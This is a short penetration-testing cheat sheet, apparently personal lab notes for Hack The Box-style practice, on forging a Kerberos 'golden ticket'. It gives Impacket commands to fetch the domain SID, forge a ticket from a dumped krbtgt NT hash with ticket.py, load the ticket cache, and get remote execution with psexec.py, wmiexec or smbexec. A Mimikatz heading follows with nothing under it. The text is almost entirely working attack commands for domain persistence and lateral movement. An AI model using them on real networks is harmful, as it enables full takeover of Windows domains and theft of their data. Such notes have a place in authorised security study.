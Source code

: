# Golden Ticket

### From Linux

#### Impacket

After dumping the hashes, we will use the `krbtgt` user and hash that was found.

```bash
# From Target: Get Domain SID via PowerShell cmdlet
Get-ADDomain htb.local  # Look for DomainSID
# From Kali
python ticket.py <nt-hash> -domain-sid <DomainSID> -domain htb.local <fake-username>
export KRB5CCNAME=<fake-username>.cache
# Then use psexec
psexec.py htb.local/<fake-username>@<IP> -k -no-pass  # Using IP
psexec.py htb.local/<fake-username>@<DOMAIN> -k -no-pass  # May need to user domain
# DEBUG
## Redo steps replaceing <fake-username> with administrator
# Can also try wmiexec, smbexec
```

#### Mimikatz
